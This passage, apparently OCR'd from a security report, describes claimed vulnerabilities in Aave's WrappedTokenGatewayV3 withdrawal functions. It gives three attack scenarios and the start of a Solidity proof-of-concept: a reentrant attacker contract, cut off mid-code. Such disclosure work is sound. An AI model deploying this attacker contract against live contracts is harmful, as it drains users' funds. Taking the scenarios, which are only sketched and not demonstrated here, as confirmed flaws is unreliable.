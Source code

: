 1. Attacker monitors mempool for `withdrawETHWithPermit` transactions
2. Front-runs with flash loan to manipulate aToken price
3. Sandwiches the victim's transaction
4. Drains excess value through permit approval
5. Repeats with multiple victims

Scenario 2: Reentrant Withdrawal

1. Attacker deploys malicious contract that accepts ETH
2. Initiates legitimate withdrawal with small amount
3. During ETH transfer callback, triggers another withdrawal
4. Exploits state inconsistency
5. Drains multiple withdrawals before state update

Scenario 3: Balance Manipulation

1. Attacker flash loans large amount of aWETH
2. Initiates multiple parallel `withdrawETHWithPermit` calls
3. Exploits race condition in balance checks
4. Maximizes damage through `type(uint256).max` withdrawals
5. Repays flash loan with profit from excess withdrawals

### Impact

1. Users could lose funds through front-running
2. Protocol could suffer from locked ETH/WETH
3. Accounting systems could become inconsistent
4. Gas costs could be manipulated

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

import {Test} from "forge-std/Test.sol";
import {WrappedTokenGatewayV3} from "../src/contracts/helpers/WrappedTokenGatewayV3.sol";
import {IWETH} from "../src/contracts/interfaces/IWETH.sol";
import {IPool} from "../src/interfaces/IPool.sol";
import {IAToken} from "../src/interfaces/IAToken.sol";

// Malicious contract for reentrancy attacks
contract AttackerContract {
    WrappedTokenGatewayV3 public gateway;
    IWETH public weth;
    IAToken public aWeth;
    bool public isAttacking;
    
    constructor(address _gateway, address _weth, address _aWeth) {
        gateway = WrappedTokenGatewayV3(_gateway);
        weth = IWETH(_weth);
        aWeth = IAToken(_aWeth);
    }
    
    // Fallback to receive ETH and perform reentrant attack
    receive() external payable {
        if (isAttacking) {
            isAttacking = false;
            gateway.withdrawETH(address(weth), aWeth.balanceOf(address(this)), address(this));
        }
    }
    
    function startAttack() external payable {
        isAttacking = true;
        // Initial withdrawal to trigger reentrancy
        gateway.withdrawETH(address(weth), 1 ether, address(this));
```